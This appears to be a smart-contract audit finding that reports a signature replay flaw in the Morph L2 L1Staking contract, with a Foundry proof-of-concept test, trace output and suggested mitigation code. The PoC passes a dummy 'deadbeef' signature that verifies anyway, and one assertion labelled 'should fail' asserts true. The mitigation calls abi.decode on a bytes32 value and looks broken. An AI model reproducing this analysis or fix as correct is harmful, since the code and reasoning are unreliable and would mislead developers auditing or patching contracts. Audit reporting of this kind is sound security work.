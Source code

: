 Massive Chili Rabbit

High

# L1Staking contract has Missing Protection against Signature Replay Attacks

#### Missing Protection against Signature Replay Attacks

**Severity:** High

**Issue Type:** Missing Protection against Signature Replay Attacks

**Location:** Function `verifySignature` at Lines 324-332
```txt
https://github.com/sherlock-audit/2024-08-morphl2/blob/main/morph/contracts/contracts/l1/staking/L1Staking.sol#L324-L332
```
**Auditor:** fat32
**Impact:**
Without mechanisms to prevent replay attacks, valid signatures can be reused maliciously to perform unauthorized actions multiple times. This vulnerability allows attackers to:

- **Repeated Unauthorized Actions:** Perform the same restricted operation repeatedly.
- **State Manipulation:** Alter contract state in unintended ways, such as repeatedly slashing stakers.
- **Erosion of Contract Integrity:** Undermine the trustworthiness and reliability of the contract's security measures.

**Foundry Coded Proof of Concept:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity =0.8.24;

import "../../lib/forge-std/src/Test.sol";
import {L1Staking} from "../l1/staking/L1Staking.sol";

contract L1StakingReplayAttackPOC is Test {
    L1Staking staking;

    function setUp() public {
        staking = new L1Staking(payable(address(0)));
    }

    function testSignatureReplay() public {
        vm.startPrank(address(0xfEEF));
        address[] memory addrr = new address[](4);
        addrr[0] = address(0);
        addrr[1] = address(0);
        addrr[2] = address(0);
        addrr[3] = address(0);
        bytes32 msgHash = keccak256(abi.encodePacked("test"));
        bytes memory signature = hex"deadbeef";
        // First verification
        bool first = staking.verifySignature(0, addrr, msgHash, signature);
        assertTrue(first, "First signature verification should pass");
        // Replay verification
        bool second = staking.verifySignature(0, addrr, msgHash, signature);
        assertTrue(second, "Replay signature verification should fail");
        vm.stopPrank();
    }
}
```
**Log Results - Foundry:**
```txt
contracts % forge test -vvvvv --match-contract L1StakingReplayAttackPOC
[⠊] Compiling...
Ran 1 test for contracts/test/L1Staking.t.sol:L1StakingReplayAttackPOC
[PASS] testSignatureReplay() (gas: 14435)
Traces:
  [3619382] L1StakingReplayAttackPOC::setUp()
    ├─ [3576780] → new L1Staking@0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
    │   ├─ emit Initialized(version: 255)
    │   └─ ← [Return] 17745 bytes of code
    └─ ← [Stop] 

  [14435] L1StakingReplayAttackPOC::testSignatureReplay()
    ├─ [0] VM::startPrank(0x000000000000000000000000000000000000FeEF)
    │   └─ ← [Return] 
    ├─ [821] L1Staking::verifySignature(0, [0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000], 0x9c22ff5f21f0b81b113e63f7db6da94fedef11b2119b4088b89664fb9a3cb658, 0xdeadbeef) [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertTrue(true, "First signature verification should pass") [staticcall]
    │   └─ ← [Return] 
    ├─ [821] L1Staking::verifySignature(0, [0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000, 0x0000000000000000000000000000000000000000], 0x9c22ff5f21f0b81b113e63f7db6da94fedef11b2119b4088b89664fb9a3cb658, 0xdeadbeef) [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::assertTrue(true, "Replay signature verification should fail") [staticcall]
    │   └─ ← [Return] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.78ms (2.77ms CPU time)

Ran 1 test suite in 623.45ms (7.78ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
**Solidity Coded Mitigation:**

Implement nonce management to ensure each signature is unique and cannot be reused.

```solidity
// Add a mapping to track used nonces
mapping(bytes32 => bool) public usedNonces;

// Modify verifySignature to include nonce
function verifySignature(
    uint256 signedSequencersBitmap,
    address[] calldata sequencerSet,
    bytes32 msgHash,
    bytes calldata signature
) external returns (bool) {
    // Assume msgHash includes a unique nonce
    (bytes32 nonce, bytes32 originalHash) = abi.decode(msgHash, (bytes32, bytes32));

    require(!usedNonces[nonce], "Signature has been replayed");

    address signer = originalHash.toEthSignedMessageHash().recover(signature);
    require(signer == owner(), "Invalid signer");

    // Mark nonce as used
    usedNonces[nonce] = true;

    return true;
}
```

**References:**
- [OpenZeppelin ECDSA Nonce Management](https://docs.openzeppelin.com/contracts/4.x/api/utils#ECDSA)
- [SWC - Replay Attacks](https://swcregistry.io/docs/SWC-121/)
- [Medium - Replay](https://medium.com/cypher-core/replay-attack-vulnerability-in-ethereum-smart-contracts-introduced-by-transferproxy-124bf3694e25)
---